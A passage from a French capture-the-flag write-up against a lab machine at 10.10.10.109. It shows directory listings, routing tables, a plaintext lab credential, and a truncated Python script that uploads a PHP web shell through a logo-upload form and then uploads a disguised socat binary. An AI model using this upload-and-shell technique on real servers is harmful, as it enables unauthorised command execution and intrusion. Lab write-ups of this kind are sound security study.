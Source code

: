 ```plain

/var/www/DNS/desktop:
total 12K
drwxrwxr-x 2 root root 4.0K Jul 17  2018 .
drwxrwxr-x 3 root root 4.0K Jul 17  2018 ..
-rw-rw-r-- 1 root root   19 Jul 17  2018 ssh
-rw-rw-r-- 1 root root    0 Jul 17  2018 user.txt

/var/www/html:
total 28K
drwxrwxr-x 2 root root 4.0K Jul 17  2018 .
drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
-rwxrwxrwx 1 root root  158 Jan 29 17:01 123.ovpn
-rw-rw-r-- 1 root root  195 Jul 17  2018 index.php
-rw-rw-r-- 1 root root   36 Jul 17  2018 notes
-rwxrwxrwx 1 root root   35 Jul 17  2018 script.sh
-rw-rw-r-- 1 root root 1022 Jul 17  2018 vpnconfig.php
```

Faute d'avoir les yeux en face des trous je n'ai pas tout de suite remarqué le fichier *ssh* qui contient les identifiants *dave* / *dav3gerous567* :-/   

Le fichier *interfaces* contient les lignes suivantes :  

```plain
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
```

On a effectivement une route existante pour le réseau 192.168.5.0/24 :  

```plain
root@DNS:/var/www/DNS# route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.200.0.1      0.0.0.0         255.255.255.255 UH    0      0        0 tun0
10.200.0.1      0.0.0.0         255.255.255.255 UH    0      0        0 tun1
192.168.5.0     192.168.122.5   255.255.255.0   UG    0      0        0 ens3
192.168.122.0   0.0.0.0         255.255.255.0   U     0      0        0 ens3
```

A ce stade de l'exploitation j'ai écris un script qui automatise toutes les précédentes étapes pour obtenir l'accès root à DNS :  

```python
from time import sleep
from urllib.parse import quote

import requests

php_shell = sess = requests.session()
sess.post(
    "http://10.10.10.109/sparklays/design/changelogo.php",
    files={"file": ("devloop.php5", "<?php system($_GET['cmd']); ?>")},
    data={"submit": "upload file"}
)

sess.post(
    "http://10.10.10.109/sparklays/design/changelogo.php",
    files={"file": open("socat.png", "rb")},
    data={"submit": "upload file"}
)

```